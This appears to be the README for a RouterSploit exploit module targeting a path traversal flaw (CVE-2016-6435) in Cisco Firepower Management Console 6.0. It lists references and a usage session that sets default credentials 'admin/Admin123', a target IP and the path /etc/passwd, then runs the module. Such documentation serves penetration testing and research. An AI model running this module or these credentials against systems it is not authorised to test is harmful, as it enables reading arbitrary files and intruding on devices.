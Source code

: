 # Cisco Firepower Management 6.0 Path Traversal

## Description
Module exploits Cisco Firepower Management 6.0 Path Traversal vulnerability.If the target is vulnerable, it is possible to retrieve content of the arbitrary files.

## Authors
* Matt # vulnerability discovery
* sinn3r # metasploit module
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6435](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6435)
* [https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking](https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking)

## Vulnerable devices
* Cisco Firepower Management Console 6.0

## Usage
```
rsf > use exploits/cisco/firepower_management60_path_traversal
rsf (Cisco Firepower Management 6.0 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address
   port       443                  Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Default username to log in
   path         /etc/passwd          File to read through vulnerability
   password     Admin123             Default password to log in


rsf (Cisco Firepower Management 6.0 Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Cisco Firepower Management 6.0 Path Traversal) > run
[*] Running module...
```
